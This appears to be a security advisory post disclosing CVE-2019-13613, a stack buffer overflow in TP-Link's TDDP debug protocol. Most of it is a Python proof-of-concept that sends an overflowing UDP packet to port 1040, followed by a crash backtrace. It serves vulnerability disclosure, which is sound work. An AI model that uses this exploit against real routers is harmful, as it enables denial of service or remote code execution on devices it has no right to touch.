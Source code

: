 ```yaml
---
layout: post
title: "[CVE-2019-13613] TDDP CMD_FTEST_CONFIG Stack-based Buffer Overflow"
comments: true
description: "TP-Link Device Debug Protocol CMD_FTEST_CONFIG Stack-based Buffer Overflow"
keywords: "tp-link, tddp, buffer overflow, stack overflow"
---
```


CMD_FTEST_CONFIG in the TP-Link Device Debug protocol in TP-Link Wireless Router Arher Router version 1.0.0 Build 20180502 rel.45702 (EU) and earlier is prone to a stack-based buffer overflow, which allows a remote attacker to achieve code execution or denial of service by sending a crafted payload to the listening server.

Proof-of-Concept:
```py
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

import sys
import binascii
import socket

rhost = "target_ip"
payload = "A" * 259 + "BBBBCCCC"

port_send = 1040

tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X" % 00

tddp_packet = "".join([tddp_ver, tddp_command, tddp_req, tddp_reply, tddp_padding])

sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
argument = "%s;junk" % payload
packet = packet + argument.encode()
sock_send.sendto(packet, (rhost, port_send))
sock_send.close()
```

```
#0  0xff7277a8 in strnlen () from /lib/libc.so.0
#1  0xff722050 in _vfprintf_internal () from /lib/libc.so.0
#2  0xff71f3c8 in vsnprintf () from /lib/libc.so.0
#3  0x000092cc in ?? ()
Backtrace stopped: previous frame identical to this frame (corrupt stack?)
```

---
References:
1. https://mjg59.dreamwidth.org/51672.html?thread=1916120